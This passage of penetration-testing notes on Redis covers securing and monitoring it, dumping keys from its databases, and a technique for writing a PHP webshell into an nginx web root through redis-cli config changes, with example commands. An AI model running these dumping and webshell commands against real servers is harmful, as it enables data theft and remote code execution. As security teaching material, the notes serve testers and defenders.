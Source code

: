 - More about configuring securely a Redis service here: [https://www.digitalocean.com/community/tutorials/how-to-install-and-secure-redis-on-ubuntu-18-04](https://www.digitalocean.com/community/tutorials/how-to-install-and-secure-redis-on-ubuntu-18-04)
- You can also monitor in real time the Redis commands executed with the command monitor or get the top 25 slowest queries with slowlog get 25
- Find more interesting information about more Redis commands here: [https://lzone.de/cheat-sheet/Redis](https://lzone.de/cheat-sheet/Redis)

## Dumping Database

Inside Redis the databases are numbers starting from 0. You can find if anyone is used in the output of the command info inside the "`Keyspace`" chunk:

![Untitled](/assets/img/pitcures/redis/redis.png)

In that example the database 0 and 1 are being used. Database 0 contains 4 keys and database 1 contains 1. By default Redis will use database 0. In order to dump for example database 1 you need to do:

```bash
SELECT 1
[ ... Indicate the database ... ]
KEYS * 
[ ... Get Keys ... ]
GET <KEY>
[ ... Get Key ... ]
```

Dump the database with npm [redis-dump](https://www.npmjs.com/package/redis-dump) or python [redis-utils](https://pypi.org/project/redis-utils/)

## Common Redis Vulnerabilities

## Webshell

From: [http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html](http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html)

You must know the path of the Web site folder:

```bash
root@Urahara:~ redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```

